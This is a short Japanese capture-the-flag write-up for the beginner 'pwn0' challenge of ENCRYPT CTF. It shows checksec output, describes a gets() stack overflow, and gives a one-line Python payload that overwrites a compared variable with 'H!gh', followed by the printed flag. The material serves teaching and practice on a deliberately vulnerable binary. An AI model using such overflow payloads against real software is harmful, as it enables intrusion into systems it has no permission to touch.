 # [pwn 25pts] pwn0 - ENCRYPT CTF
32bitバイナリでセキュリティ機構は基本的に無効のようです。
```
$ checksec pwn0
[*] 'pwn0'
    Arch:	32 bits (little endian)
    NX:		NX enabled
    SSP:	SSP disabled (No canary found)
    RELRO:	No RELRO
    PIE:	PIE disabled
```
IDAで解析しましょう。
getsによるスタックオーバーフローがあります。
`esp-0x1C`がバッファなのですが、`esp-0x5C`にある変数と"H!gh"という文字を比較しています。
したがって、0x40バイト適当な文字を入れた後に"H!gh"を入れれば良さそうです。

```
$ python -c 'print("A" * 0x40 + "H!gh")' | ./pwn0 
How's the josh?
Good! here's the flag
encryptCTF{L3t5_R4!53_7h3_J05H}
```

# 感想
pwn始めたばっかりの人向け問題ですね。